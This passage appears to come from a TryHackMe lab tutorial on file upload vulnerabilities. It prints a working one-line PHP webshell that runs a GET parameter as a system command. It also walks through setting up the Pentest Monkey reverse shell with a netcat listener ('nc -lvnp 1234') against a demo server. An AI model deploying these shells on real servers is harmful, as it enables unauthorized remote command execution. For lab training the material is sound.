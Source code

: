 Ok, we can upload images. Let's try a webshell now.

As it is, we know that this webserver is running with a PHP back-end, so we'll skip straight to creating and uploading the shell. In real life, we may need to do a little more enumeration; however, PHP is a good place to start regardless.A simple webshell works by taking a parameter and executing it as a system command. In PHP, the syntax for this would be:

```php
**<?php
echo system($_GET["cmd"]);
?>**
```

This code takes a GET parameter and executes it as a system command. It then echoes the output out to the screen.

Let's try uploading it to the site, then using it to show our current user and the contents of the current directory:

![up](https://i.imgur.com/CU0Uyx5.png)

Success!

We could now use this shell to read files from the system, or upgrade from here to a reverse shell. Now that we have RCE, the options are limitless. Note that when using webshells, it's usually easier to view the output by looking at the source code of the page. This drastically improves the formatting of the output.

---

*Reverse Shells:*

The process for uploading a reverse shell is almost identical to that of uploading a webshell, so this section will be shorter. We'll be using the ubiquitous Pentest Monkey reverse shell, which comes by default on Kali Linux, but can also be downloaded [here](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php). You will need to edit line 49 of the shell. It will currently say `$ip = '127.0.0.1';  // CHANGE THIS` -- as it instructs, change `127.0.0.1` to your TryHackMe tun0 IP address, which can be found on the [access page](https://tryhackme.com/access).
You can ignore the following line, which also asks to be changed. With the shell edited, the next thing we need to do is start a Netcat listener to receive the connection. `nc -lvnp 1234`:

![up](https://i.imgur.com/ysY306E.png)

Now, let's upload the shell, then activate it by navigating to `http://demo.uploadvulns.thm/uploads/shell.php`. The name of the shell will obviously be whatever you called it (`php-reverse-shell.php` by default).

The website should hang and not load properly -- however, if we switch back to our terminal, we have a hit!

![up](https://i.imgur.com/he0hbiR.png)

Once again, we have obtained RCE on this webserver. From here we would want to stabilize our shell and escalate our privileges, but those are tasks for another time. For now, it's time you tried this for yourself!

---